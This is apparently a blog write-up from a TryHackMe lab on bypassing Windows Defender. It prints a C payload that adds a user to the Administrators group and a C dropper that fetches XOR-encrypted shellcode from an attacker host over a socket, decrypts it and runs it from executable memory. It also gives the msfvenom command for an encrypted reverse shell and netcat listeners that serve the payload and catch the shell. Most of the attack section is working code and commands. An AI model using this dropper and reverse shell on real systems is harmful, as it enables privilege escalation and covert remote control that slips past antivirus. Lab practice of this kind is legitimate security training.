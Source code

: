 ```yaml
---
title: "Bypass Windows Defender with a simple custom shellcode"
categories:
  - Shellcode
tags:
  - Bypass AV
---
```



Earlier this week I worked against a TryHackMe room called [Hack Smarter Security](https://tryhackme.com/r/room/hacksmartersecurity).

This room is pretty interesting, but I won't write a full writeup, there is already enough of them. Instead I want to focus on the AV evasion.


#### Target

The target is a Windows VM featuring a vulnerable WebApp, leading to user credentials discovery.
Once connected through SSH, internal enumeration reveal that Windows Defender is active.

Long story short, we need to exploit a service and replace its executable with a malicious payload that will be executed as SYSTEM. This payload could initiate a shell, or add our current user to administrators localgroup for example.

To be honest this room doesn't require to put effort on AV evasion because a simple, non-detectable payload is enough, as show below :

```
#include <stdlib.h>

int main() {
  system("cmd.exe /c net localgroup Administrators tyler /add");
  return 0;
}

```
Credits goest to [jaxafed's writeup](https://jaxafed.github.io/posts/tryhackme-hack_smarter_security/)


This works, but I could get a shell as SYSTEM ! Obviously I tried a few metasploit payloads, but they are well known to AV vendors and are instantly flagged as malicious.
I used some learnings from [TryHackMe room on AV evasion](https://tryhackme.com/r/room/avevasionshellcode) and build a C# payload, then packed it with [Confuser](https://github.com/mkaring/ConfuserEx).

Well it worked, but somehow was a bit frustrated, and I wanted to work on C based shellcodes.

I am more familiar with C# and already had a staged shellcode with XOR encryption in this langage, so why not try something similar in C ?


#### Shellcode

So my goal is to build a XOR encrypted payload from metasploit and have a dropper to download said payload, decrypt and execute it from memory. That way, our shellcode won't be wrote on disk for maximum stealth.


Good news is I already have most parts I needed, let's start with network :

```
//IP and port where to fetch our shellcode
int port = 9002;
char ip[] = "10.10.10.10";

//initialize struct
int sockfd = socket(AF_INET, SOCK_STREAM, 0);
struct sockaddr_in serv_addr;
serv_addr.sin_family = AF_INET;
serv_addr.sin_port = htons(port);
serv_addr.sin_addr.s_addr = inet_addr(ip);

//connect back home
int n = connect(sockfd, (struct sockaddr *)&serv_addr, sizeof(serv_addr));

//copy our shellcode into buffer
unsigned char buffer[BUFFER_SIZE];
n = recv(sockfd, buffer, BUFFER_SIZE, 0);
```

```
//de-Xor shellcode
char key[] = "MyShellcodePassword";
unsigned char shellcode[n];

for (int i = 0; i < n; i++)
    shellcode[i] = buffer[i] ^ key[i % strlen(key)];

//copy shellcode in memory and execute it
void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
memcpy(exec, shellcode, sizeof shellcode);
((void(*)())exec)();
```

And that's about it ! I snipped small parts, full code is on my [shellcode repos](https://github.com/20100dbg/shellcodes).
Now we need to generate a reverse shell payload, let's use msfvenom :

```
//create a reverse shell payload. Our shellcode is XOR encrypted with "MyShellcodePassword" as key, result is in a file called 'shellcode'
msfvenom -p windows/shell_reverse_tcp lhost=10.10.10.10 lport=9001 --encrypt xor --encrypt-key MyShellcodePassword -f raw -o shellcode

//this listener will serve our shellcode
nc -lvnp 9002 < shellcode

//this listener will catch our reverse shell
nc -lvnp 9001
```

#### The end ?

This should work fine. But if you remember correctly, we are exploiting a vulnerable *service*. A service executable needs specific functions that can be called by Service manager.

Once again I'm in luck because I got a service template from [Windows Privesc Arena's room](https://tryhackme.com/r/room/windowsprivescarena)

We only have to paste our dropper in Run() function and that's it.

Let's compile :
```
mingw32-gcc.exe .\service.c -lwsock32
```

And here's the result :

![Got root ?](/assets/images/post-20240426/01_win.png)
